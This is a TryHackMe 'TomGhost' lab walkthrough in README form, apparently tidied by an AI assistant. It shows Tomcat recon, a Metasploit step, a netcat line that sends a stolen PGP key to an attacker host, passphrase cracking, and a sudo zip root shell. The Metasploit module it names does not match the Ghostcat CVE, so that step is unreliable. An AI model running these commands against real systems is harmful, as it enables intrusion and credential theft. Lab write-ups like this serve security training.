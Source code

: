 
# TomGhost Machine Walkthrough

## Reconnaissance

### Nmap Scan
```bash
nmap -sC -sV -oN nmap.txt 10.10.228.82
```

**Key Findings:**
- **Port 22**: OpenSSH 7.2p2 (Potential username enumeration)
- **Port 8009**: Apache JServ AJP13 (Vulnerable to Ghostcat)
- **Port 8080**: Apache Tomcat 9.0.30 (Web interface)

### Directory Enumeration
```bash
gobuster dir -u http://10.10.228.82:8080 -w /usr/share/wordlists/common.txt
```
Discovered:
- `/manager` (Tomcat management interface)
- `/docs` (Tomcat documentation)

## Exploitation

### Ghostcat Exploit (CVE-2020-1938)
```bash
msfconsole
use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOSTS 10.10.228.82
run
```
**Obtained Credentials:**
```
skyfuck:8730281lkjlkjdqlksalks
```

### Initial Access
```bash
ssh skyfuck@10.10.228.82
```

## Post-Exploitation

### File Transfer
4. Transferring Files from the Target
After accessing the machine as skyfuck, we need to transfer two files to our local machine for further analysis:

tryhackme.asc (PGP private key)

credential.pgp (encrypted file)

Method 1: SCP (Secure Copy)
Ideal for direct transfers over SSH.

```
# From LOCAL machine, pull files via SCP:
scp skyfuck@10.10.99.183:/home/skyfuck/tryhackme.asc .
scp skyfuck@10.10.99.183:/home/skyfuck/credential.pgp .
```
Note: Requires SSH access and correct permissions.

Method 2: Python HTTP Server
Useful if SCP is restricted or for large files.

On the target machine, start a web server:

`
python3 -m http.server 8080`
On your local machine, download the files:

```
wget http://10.10.99.183:8080/tryhackme.asc
wget http://10.10.99.183:8080/credential.pgp
```
Method 3: Netcat (Alternative)
For environments where HTTP/SCP is blocked.

On your local machine, listen for the file:

`
nc -lvnp 4444 > tryhackme.asc`
On the target machine, send the file:

`
nc <LOCAL_IP> 4444 < tryhackme.asc
`
Repeat for credential.pgp.


### PGP Cracking
1. Extract hash:
```bash
gpg2john tryhackme.asc > hash.txt
```

2. Crack with John:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
**Passphrase:** `alexandru`

3. Decrypt credentials:
```bash
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```
**Output:**
```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

## Privilege Escalation

### User Switching
```bash
ssh merlin@10.10.228.82
```

### Sudo Privilege Check
```bash
sudo -l
```
**Output:**
```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

### Zip Exploit (GTFOBins)
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

## Flags Captured

| Flag Type | Location | Value |
|-----------|----------|-------|
| User | /home/merlin/user.txt | `THM{GhostCat_1s_so_cr4sy}` |
| Root | /root/root.txt | `THM{Z1P_1S_FAKE}` |

## Lessons Learned
1. **AJP Exposure**: Unsecured AJP ports can leak sensitive configuration files
2. **Credential Management**: Weak PGP passphrases are easily crackable
3. **Sudo Auditing**: Unrestricted archive binaries (zip) can lead to privilege escalation

## Mitigation Strategies
| Vulnerability | Solution |
|--------------|----------|
| Ghostcat | Disable AJP protocol or upgrade Tomcat |
| Weak Encryption | Enforce strong PGP passphrases |
| Sudo Misconfiguration | Implement principle of least privilege |

---

**Author**: [Your Name]  
**TryHackMe Profile**: [Your Profile Link]  
**Completion Date**: [Date]  
**Tools Used**: Nmap, Gobuster, Metasploit, John the Ripper, GPG
```

### Key Features:
1. **Professional Structure**: Clear sections with logical flow
2. **Code Blocks**: Properly formatted commands and outputs
3. **Tables**: For scan results and flag documentation
4. **Visual Elements**: TryHackMe logo and section dividers
5. **Actionable Insights**: Lessons learned and mitigation strategies

This format is:
- Ready to paste into GitHub as README.md
- Mobile-friendly rendering
- Includes all technical details from your original
- Adds professional documentation elements

Would you like me to add any of these enhancements?
- Screenshot examples
- Animated exploitation diagrams
- Detailed CVE references
- Tool installation instructions
